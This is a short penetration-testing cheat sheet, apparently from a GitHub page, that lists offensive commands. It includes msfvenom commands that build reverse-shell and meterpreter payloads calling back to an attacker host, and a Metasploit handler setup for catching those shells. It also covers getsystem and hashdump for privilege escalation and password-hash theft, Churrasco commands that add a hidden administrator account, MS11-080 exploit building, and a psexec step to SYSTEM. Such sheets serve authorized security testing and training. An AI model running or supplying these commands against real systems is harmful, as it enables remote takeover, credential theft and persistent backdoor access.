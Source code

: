 Generate shellcode to use within a perl exploit:

    msfvenom -p linux/x86/shell/reverse_tcp LHOST=<attacker_ip> LPORT=443 -f perl -b \x00\x0A\x0D\xFF

Raw paylaod:

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f raw -o test.bin

Js payload:

    msfvenom -p linux/x86/shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f js_le

Handling reverse shell using meterpreter:

    msf > use exploit/multi/handler
    msf > set lport 1234
    msf > set lhost <attacker_ip>
    msf > set payload windows/shell/reverse_tcp
    msf > run

Other payloads:

    set PAYLOAD windows/meterpreter/reverse_tcp
    set PAYLOAD generic/shell_reverse_tcp
    set PAYLOAD linux/x86/meterpreter/reverse_tcp

Privilege escalation

    getsystem
    hashdump

## Useful exploits

Windows Server 2003 and IIS 6.0 privledge escalation using impersonation:

    https://www.exploit-db.com/exploits/6705/

    https://github.com/Re4son/Churrasco

    $ c:\Inetpub>churrasco
     churrasco
     /churrasco/-->Usage: Churrasco.exe [-d] "command to run"
    
     c:\Inetpub>churrasco -d "net user /add <username> <password>"
     c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"

## Windows MS11-080

http://www.exploit-db.com/exploits/18176/

    $ python pyinstaller.py --onefile ms11-080.py

    $ mx11-080.exe -O XP

## From admin to system

    psexec.exe -i -s %SystemRoot%\system32\cmd.exe

## AV bypass
